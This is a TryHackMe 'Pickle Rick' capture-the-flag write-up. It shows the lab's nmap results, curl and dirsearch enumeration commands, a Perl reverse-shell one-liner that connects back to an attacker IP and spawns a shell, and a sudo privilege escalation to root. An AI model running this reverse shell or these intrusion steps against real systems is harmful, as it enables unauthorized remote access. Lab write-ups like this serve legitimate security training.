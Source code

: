 ```yaml
---
title: TryHackMe | Pickle Rick
author: Zeropio
date: 2022-05-09
categories: [TryHackMe, easy-room]
tags: [thm, linux]
permalink: /tryhackme/pickle-rick
---
```



# Enumeration
We start a nmap at the IP.
```
Nmap scan report for 10.10.253.214
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:50:7b:e1:4c:53:63:5d:2b:c6:84:1a:66:e9:a0:04 (RSA)
|   256 19:a8:de:3e:70:d9:ba:ff:d5:2f:46:60:a2:e1:c3:e3 (ECDSA)
|_  256 70:de:54:34:34:75:c3:77:56:9e:00:b3:84:93:fe:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can do a curl to the webpage and get a user in the html:
```console
curl -i http://10.10.253.214/
```

We can try a fuzzer to the webpage:
```console
dirsearch -r -u http://10.10.253.214/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e php,txt,html -f
```

# Explotation
We can try to access with ssh but we need the RSA.

We can get a **login.php** and access with the creds. We can see a command execution and try a reverse shell with perl:
```console
perl -e 'use Socket;$i="10.18.91.218";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

# Privilege Escalation
If we list all the www-data privileges we can see that we can executed any code, so we can get root.
```console
> sudo -l
> sudo su
```
